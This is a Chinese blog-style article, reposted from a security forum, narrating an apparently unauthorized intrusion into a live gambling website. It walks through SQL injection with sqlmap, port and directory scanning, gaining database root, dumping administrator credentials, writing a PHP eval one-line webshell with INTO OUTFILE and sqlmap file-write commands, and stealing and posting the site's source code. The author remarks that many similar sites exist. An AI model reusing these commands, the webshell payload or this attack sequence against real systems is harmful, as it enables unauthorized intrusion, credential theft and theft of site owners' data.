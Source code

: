 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/dxtKk2S1LhsqPv6CieCstg)

![](https://mmbiz.qpic.cn/mmbiz_png/yv5xg29CADoqaxxZZFXJRfP8Sd0wCXgy21McgQ6Rsg6XvJGyZagbEXfjT24AzcMYEdALo2jDRODv3cWkbiaFibcw/640?wx_fmt=png)

涉及知识点：  

```
1、bp抓包找注入点
2、sqlmap使用
3、端口扫描，寻找后台
4、目录扫描，寻找可注入页面
5、注入获得数据库root权限
6、sqlmap写一句话木马
7、sqlmap读取文件
8、注入获取管理员账号、密码
9、域名解析
10、thinkphp写马
```

偶遇一棋牌网站

![](https://mmbiz.qpic.cn/sz_mmbiz_png/rf8EhNshONQwklrqecrTic2w3BTXy4BdBtJ4sc5kiaibWoIF1mMic7iaF2qmp9aTVFtXOhHxMzCj8LTOB0EXShAGraA/640?wx_fmt=png)

1、简单的抓包分析一下

![](https://mmbiz.qpic.cn/sz_mmbiz_png/rf8EhNshONQwklrqecrTic2w3BTXy4BdBkRG7foYzs74KGsPicL2o2R1dOHiaqiaKkXcjeKibcFf2rngvjIoWuMb1ew/640?wx_fmt=png)

2、用户名后边加单引号直接报错了，闭合之后又正常了，稳稳地 sql 注入一枚。

3、通过测试没有发现任何安全设备，直接上 sqlmap。

4、过程就不啰嗦了，直接得到下边数据

```
current-user:  developer@%
select @@BASEDIR: '/usr/'
select USER(): 'developer@121.x.x.x'
select DATABASE(): 'edc'
select SYSTEM_USER(): 'developer@121.x.x.x'
select @@CHARACTER_SETS_DIR: '/usr/share/mysql/charsets/'
select @@CHARACTER_SET_CLIENT: 'utf8'
select @@DATADIR: '/var/lib/mysql/'
select @@CHARACTER_SET_SERVER: 'latin1'
```

5、通过一波信息收集，当前用户权限很低，有用的信息少得可怜

6、对目标端口进行扫描, 发现端口开了挺多  

![](https://mmbiz.qpic.cn/sz_mmbiz_png/rf8EhNshONQwklrqecrTic2w3BTXy4BdB9GE4NyH8B5cfO7XzlJic1eNs0Z2Xianaicb0oeubImQjV7wEqvoA5aeEg/640?wx_fmt=png)

7、打开 80 端口没有任何页面  

![](https://mmbiz.qpic.cn/sz_mmbiz_png/rf8EhNshONQwklrqecrTic2w3BTXy4BdB93msClQTwAaIqzUiceiaFeR90dMhTkJs91KszTAh7gXhNJicvaqT01q9g/640?wx_fmt=png)

```
888 端口  是apache默认首页  得到绝对路径 /var/www/html/
9090 端口 是赌博站管理登录地址
9091 端口 是赌博站会员登录地址
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/rf8EhNshONQwklrqecrTic2w3BTXy4BdBMPOfzvz12rJJzCcodALSpAMFtHb3tibF4REPYWppZibpibuxNrac45tMA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/rf8EhNshONQwklrqecrTic2w3BTXy4BdB6cnibwPndnteZPZWeZXWlQJ2huuWEMA1KGBBOfzWQEmxIyTkbrZUCmg/640?wx_fmt=png)

8、经过测试，这个两个页面没有可利用的漏洞

### 突破点

9、通过对目录进行扫描发现一个报错页面，得到一个注入点还得到一个 info.php

![](https://mmbiz.qpic.cn/sz_mmbiz_png/rf8EhNshONQwklrqecrTic2w3BTXy4BdBsRYmBWPv0FEg8raLyf7MMvF6up2iaMibfh03rf8eET0Zc1rpSu8ic5iayQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/rf8EhNshONQwklrqecrTic2w3BTXy4BdBs8Cl6PJr0YjA6koNgoYfahZVNdGtF03Vgq9UaPiaIVVGqDZsgXqGeAg/640?wx_fmt=png)

10、拿到数据库 root 权限  

![](https://mmbiz.qpic.cn/sz_mmbiz_png/rf8EhNshONQwklrqecrTic2w3BTXy4BdBkVQbickxhMUre6LibibmkPJQd63icCDOn1bmu5EKwxiaE16diatnBCSuCU5w/640?wx_fmt=png)

```
db_test  当前数据库
[19:54:48] [INFO] resumed: 'root'@'localhost'
[19:54:48] [INFO] resumed: 'developer'@'localhost'
[19:54:48] [INFO] resumed: 'root'@'127.0.0.1'
[19:54:48] [INFO] resumed: 'syncopy'@'222.xxx.xxx.xxx'
[19:54:48] [INFO] resumed: 'mlh'@'localhost'
[19:54:48] [INFO] resumed: 'developer'@'%'
[19:54:48] [INFO] resumed: 'mlh'@'%'
[19:54:48] [INFO] resumed: 'edc'@'%'
[19:54:48] [INFO] resumed: '6hc_nav'@'%'
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/rf8EhNshONQwklrqecrTic2w3BTXy4BdBJz19Tz0mcT6ibH1B8DpJ6RfSxBCAX2LDiaKKvZSEpvWCGadaxjtPMUpQ/640?wx_fmt=png)

### 尝试写入 shell

11、通过 sql 语句写入 shell 却没有成功，只有在支持堆叠查询时，才能执行非查询 SQL 语句

```
sqlmap --sql-shell
select "<?php eval($_POST['x']);?>" into outfile "/var/www/html/25u_ft/1.php"
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/rf8EhNshONQwklrqecrTic2w3BTXy4BdBwm0NRxI1O2Z5vcfe5uYnfCPDHENqibfEiaZPSOiadtfzw0iblCpOedKicpA/640?wx_fmt=png)

12、换一种方式写入  

```
--file-write "/localhost/shell.php" 
--file-dest "/var/www/html/25u_ft/test.php"
```

13、完全写不进去，发现是没有写入权限，只有读取权限  

```
--file-read "/var/www/html/25u_ft/info.php"
```

14、可以正常读取, 尝试读取配置文件, 至此走上了一条错误之路  

![](https://mmbiz.qpic.cn/sz_mmbiz_png/rf8EhNshONQwklrqecrTic2w3BTXy4BdB7607jCA74hFk7ZdnvJmtd3iauEu5iaicFL45vDvI8icvsh0lCIJIicpbuVA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/rf8EhNshONQwklrqecrTic2w3BTXy4BdBtYSc8AnC1lJHC01ic5W41FsMApF2cAT6CJpUu48ibCA3MgDETXDiaffsw/640?wx_fmt=png)

（1）读取了几个配置文件，并没有什么思路

（2）回头去注入管理员的密码，尝试从后台获取 shell

```
-D "10fenft" -T "g_user" -C "g_name,g_password" --dump
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/rf8EhNshONQwklrqecrTic2w3BTXy4BdBcJQStc1pj0E12rx1m2n82TcCcx7uagtO80nstm7TRib7TY8xMFBCmMQ/640?wx_fmt=png)

（3）成功登录后台

![](https://mmbiz.qpic.cn/sz_mmbiz_png/rf8EhNshONQwklrqecrTic2w3BTXy4BdB5EfyauqwTVAn3g5MicqdNTTbpLLCXQ62ibWGwl6fZZIf4a8LIicM1a0Zg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/rf8EhNshONQwklrqecrTic2w3BTXy4BdB4NT5HfYcurSUry1DuOK3k0BD5jg63roDjyqicqZ7DicKM7HpibVOSconA/640?wx_fmt=png)

（4）后台简陋的一批，没有上传功能

    ### getshell

（5）该有的条件都有了就是拿不到 shell，很难受。

（6）在各种渠道查询这个 ip, 突然发现以前有域名解析到这里

![](https://mmbiz.qpic.cn/sz_mmbiz_png/rf8EhNshONQwklrqecrTic2w3BTXy4BdB83jIefDLgnO6Iljh1OdWdiaKED9yZYJ9mMxu8dPzOvWfA5IUIJnO7Vg/640?wx_fmt=png)

（7）太好了，域名还可以正常访问，是一个论坛

![](https://mmbiz.qpic.cn/sz_mmbiz_png/rf8EhNshONQwklrqecrTic2w3BTXy4BdBa6Y16f0X4daVIdJ0BRictN4vzlDRKDxujGWJH2XqjpUwPAW9T1N0UhA/640?wx_fmt=png)

（8）竟然是 thinkphp, 而且还爆出了绝对路径

（9）重复之前的写入操作，一下就成功了，哈哈哈哈

![](https://mmbiz.qpic.cn/sz_mmbiz_png/rf8EhNshONQwklrqecrTic2w3BTXy4BdBPSagx7csuQFLD3Kf1pt7AvNALlq7jWUzsKGnH3ewwybX0WEPIVAPAw/640?wx_fmt=png)

### 打包源码

（10）直接链接 shell

![](https://mmbiz.qpic.cn/sz_mmbiz_png/rf8EhNshONQwklrqecrTic2w3BTXy4BdBwsLqgllCH8mtQMdk177cvt4jHl0yibsAJPUtqApUKu6nq1ibwQLbjKxg/640?wx_fmt=png)

（11）权限不高，但是丝毫不影响我打包源码

![](https://mmbiz.qpic.cn/sz_mmbiz_png/rf8EhNshONQwklrqecrTic2w3BTXy4BdBUIFOQOV1P49HZd4JRl1oSosUHAyKF3rdmsPHibaIgHrjLE4ZjS5xxAw/640?wx_fmt=png)

### 总结  
发现还要很多同类型的站点  
源码放在下边了

![](https://mmbiz.qpic.cn/sz_mmbiz_png/rf8EhNshONQwklrqecrTic2w3BTXy4BdByqPB3qnbW5PPCXnuicrv5vqg4Jcx7NMzAVUKnYsq4SdicMh4EmzFSljw/640?wx_fmt=gif)25u_new.rar (10.481 MB) 下载附件

**转载于 https://xz.aliyun.com/t/9567**

**推荐阅读：**

  

_**渗透实战系列**_

  

  

▶[【渗透实战系列】|10 - 记某色 X 商城支付逻辑漏洞的白嫖（修改价格提交订单）](http://mp.weixin.qq.com/s?__biz=Mzg2NDYwMDA1NA==&mid=2247486060&idx=1&sn=a4b977e9e3bbfe7b2c9ec479942e615c&chksm=ce67a0f5f91029e30c854eb2f71173efe925a38294fd39017708abcf4deea5c2b25dee518ebf&scene=21#wechat_redirect)

▶[【渗透实战系列】|9 - 对境外网站开展的一次 web 渗透实战测试（非常详细，适合打战练手）](http://mp.weixin.qq.com/s?__biz=Mzg2NDYwMDA1NA==&mid=2247486042&idx=1&sn=4022c7f001ca99dc6837d51b759d5104&chksm=ce67a0c3f91029d5f1ac9dc24d23cb390630db1cc3f8e76398cf097a50e29e0b98e9afcb600a&scene=21#wechat_redirect)

▶[【渗透实战系列】|8 - 记一次渗透测试从 XSS 到 Getshell 过程（详细到无语）](http://mp.weixin.qq.com/s?__biz=Mzg2NDYwMDA1NA==&mid=2247486005&idx=3&sn=55aad92a300e5a6410aa194b521e11b2&chksm=ce67a0acf91029ba5cd51fbe7c5682fd3eab8a257cf1f6bae44fdaa871bbac7edd51440e4cf8&scene=21#wechat_redirect)

▶[【渗透实战系列】|7 - 记一次理财杀猪盘渗透测试案例](http://mp.weixin.qq.com/s?__biz=Mzg2NDYwMDA1NA==&mid=2247485901&idx=1&sn=84b5dac005c838c1b6d22fc4207c81c1&chksm=ce67a354f9102a42260468d305734ed7ea437715ee508f2b3eeb8afa0727b7f4ae652909ff44&scene=21#wechat_redirect)

▶[【渗透实战系列】|6- BC 杀猪盘渗透一条龙 (文末附【渗透实战系列】其他文章链接)](http://mp.weixin.qq.com/s?__biz=Mzg2NDYwMDA1NA==&mid=2247485861&idx=1&sn=39318b76da490ed2a8746134f685d454&chksm=ce67a33cf9102a2aa3793cafbd701c77f851ca9dac3f827524b5cfe093cbecb14892ee131400&scene=21#wechat_redirect)

▶[【渗透实战系列】|5 - 记一次内衣网站渗透测试](http://mp.weixin.qq.com/s?__biz=Mzg2NDYwMDA1NA==&mid=2247485826&idx=2&sn=8f11b7cc12f6c5dfb5eeeb316f14f460&chksm=ce67a31bf9102a0d704877584dc3c49141a376cc1b35c0659f3ae72baa7e77e6de7e0f916db5&scene=21#wechat_redirect)

▶[【渗透实战系列】|4 - 看我如何拿下 BC 站的服务器](http://mp.weixin.qq.com/s?__biz=Mzg2NDYwMDA1NA==&mid=2247485789&idx=2&sn=a1a3c9fc97eeab0b5e5bd3d311e3fae6&chksm=ce67a3c4f9102ad21ce5c895d364b4d094391d2369edfc3afce63ed0b155f8db1c86fa6924f1&scene=21#wechat_redirect)  

▶[【渗透实战系列】|3 - 一次简单的渗透](http://mp.weixin.qq.com/s?__biz=Mzg2NDYwMDA1NA==&mid=2247485778&idx=2&sn=997ecdc137f7ae88737e827b29db4e45&chksm=ce67a3cbf9102add52833faf5ad7346affc93589fc8babf72468997c2dbd88c25e8f06d8a7e0&scene=21#wechat_redirect)

▶[【渗透实战系列】|2 - 记一次后门爆破到提权实战案例](http://mp.weixin.qq.com/s?__biz=Mzg2NDYwMDA1NA==&mid=2247485647&idx=2&sn=28a227ff21a6a99e323f6e27130a5ad5&chksm=ce67a256f9102b4030db2fc636ff1d454d46178fc2003368305cdc06ae2a4c81dd011dfcb361&scene=21#wechat_redirect)

▶[【渗透实战系列】|1 一次对跨境赌博类 APP 的渗透实战（getshell 并获得全部数据）](http://mp.weixin.qq.com/s?__biz=Mzg2NDYwMDA1NA==&mid=2247485589&idx=1&sn=f4f64ea923675c425f1de9e4e287fb07&chksm=ce67a20cf9102b1a1a171041745bd7c243156eaee575b444acc62d325e2cd2d9f72b2779cf01&scene=21#wechat_redirect)

![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/rf8EhNshONSgp1TKd5oeaGb76g5eMFibnANHNp30ic7NtpVnU12TNkBynw2ju7RDHbYtVZibm5rjDh7VKbAEyO8ZQ/640?wx_fmt=jpeg)  

**长按 - 识别 - 关注**

![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/rf8EhNshONRHbDcqVCY8LR0Y5uDpRzUdh4kN8gRTPLYhNib2rHTJFT9cJ77DRe7tbyjP3mfuRk0P8PKPqdWUbkw/640?wx_fmt=jpeg)

**Hacking 黑白红**

一个专注信息安全技术的学习平台

![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWiaWs5g9QGias3uHL9Uf0LibiaBDEU5hJAFfap4mBBAnI4BIic2GAuYgDwUzqwIb9wicGiaCyopAyJEKapgA/640?wx_fmt=gif)

**点分享**

![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWiaWs5g9QGias3uHL9Uf0LibiaBRJ4tRlk9QKMxMAMticVia5ia8bcewCtM3W67zSrFPyjHuSKmeESESE1Ig/640?wx_fmt=gif)

**点收藏**

![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWiaWs5g9QGias3uHL9Uf0LibiaBnTO2pb7hEqNd7bAykePEibP0Xw7mJTJ7JnFkHuQR9vHE7tNJyHIibodA/640?wx_fmt=gif)

**点点赞**

![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWiaWs5g9QGias3uHL9Uf0LibiaBhibuWXia5pNqBfUReATI6GO6sYibzMvj8ibQM6rOo2ULshCrbaM0mJYEqw/640?wx_fmt=gif)

**点在看**
